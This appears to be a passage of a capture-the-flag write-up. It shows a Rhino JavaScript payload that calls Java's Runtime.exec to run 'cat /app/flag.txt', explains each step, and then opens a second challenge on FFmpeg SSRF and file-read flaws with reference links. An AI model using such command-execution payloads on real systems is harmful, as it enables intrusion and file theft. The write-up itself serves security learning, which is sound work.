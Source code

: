 ## Exploit Code

```javascript
eval(a=java.lang.Runtime.getRuntime().exec('cat /app/flag.txt').getInputStream().readAllBytes())
```
![Screenshot](https://raw.githubusercontent.com/0xraminfosec/imagerepo/refs/heads/main/Screenshot%20from%202025-03-09%2016-50-15.png "chall")

### Breakdown of the Exploit

#### **1. Accessing Java Classes**
Rhino allows direct access to Java classes:
```javascript
java.lang.Runtime.getRuntime()
```
This gives us a reference to the **Java Runtime Environment (JRE)**, which can execute system commands.

#### **2. Executing a System Command**
```javascript
.exec('cat /app/flag.txt')
```
This runs the Linux `cat` command to read the contents of the `flag.txt` file.

#### **3. Capturing the Output**
```javascript
.getInputStream().readAllBytes()
```
The output of the command is stored in an **InputStream**, which we fully read using `.readAllBytes()`.

#### **4. Evaluating the Output**
```javascript
eval(a= ...)
```
- The flag data is assigned to variable `a`.
- `eval()` executes the result, allowing us to retrieve and print the flag.

---


# Gif

![Screenshot](https://raw.githubusercontent.com/0xraminfosec/imagerepo/refs/heads/main/Screenshot%20from%202025-03-09%2017-06-12.png "chall")

We are given a **video-to-GIF converter** application. Upon inspecting the source code, we find a comment mentioning **FFmpeg**, an open-source multimedia framework.

A quick Google search reveals that **FFmpeg is vulnerable to Server-Side Request Forgery (SSRF) and Local File Read (LFI) attacks** via specially crafted **HLS (HTTP Live Streaming) playlists** and **AVI file uploads**.

#### References:
- [FFmpeg Official Documentation](https://ffmpeg.org/ffmpeg.html)
- [HackerOne Report - FFmpeg SSRF & LFI](https://hackerone.com/reports/1062888)

---